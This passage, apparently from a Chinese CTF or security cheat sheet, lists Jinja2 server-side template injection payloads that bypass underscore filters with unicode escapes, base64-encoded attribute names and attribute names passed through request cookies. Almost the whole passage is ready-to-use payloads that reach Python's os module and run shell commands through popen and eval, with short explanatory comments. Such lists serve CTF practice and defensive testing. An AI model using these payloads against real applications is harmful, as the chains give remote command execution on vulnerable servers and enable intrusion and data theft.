 2.  **Unicode 编码:** 在 `attr()` 过滤器中使用 `\u005f` 代替 `_`。

    ```jinja
    {{ lipsum | attr("\u005f\u005fglobals\u005f\u005f") | attr("\u005f\u005fgetitem\u005f\u005f")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```

    *`lipsum` 是 Jinja2 的一个内置函数/变量，可以通过 `|attr("__globals__")` 访问其全局命名空间，进而找到 `os` 模块。*

3.  **Base64 编码:** 将包含下划线的属性名进行 Base64 编码，在 `attr()` 中解码。

    ```jinja
    {{ () | attr('X19jbGFzc19f'.decode('base64')) | attr('X19iYXNlX18='.decode('base64')) | attr('X19zdWJjbGFzc2VzX18='.decode('base64'))() | attr('X19nZXRpdGVtX18='.decode('base64'))(258) | attr('X19pbml0X18='.decode('base64')) | attr('X19nbG9iYWxzX18='.decode('base64')) | attr('X19nZXRpdGVtX18='.decode('base64'))('os') | attr('popen')('cat flag') | attr('read')() }}
    ```

    *`'X19jbGFzc19f'.decode('base64')` 会解码得到 `__class__`。*

4.  **`attr()` 配合 `request` 对象:** 将包含下划线的属性名通过 `request` 对象传入。

    ```jinja
    {{ (x | attr(request.cookies.x1) | attr(request.cookies.x2) | attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5) }}
    ```

    在 HTTP 请求的 Cookie 中设置：

    ```
    x1=__init__; x2=__globals__; x3=__getitem__; x4=__builtins__; x5=__import__('os').popen('cat f*').read()
    ```

    *`x` 需要是模板上下文中一个可利用的对象实例。*
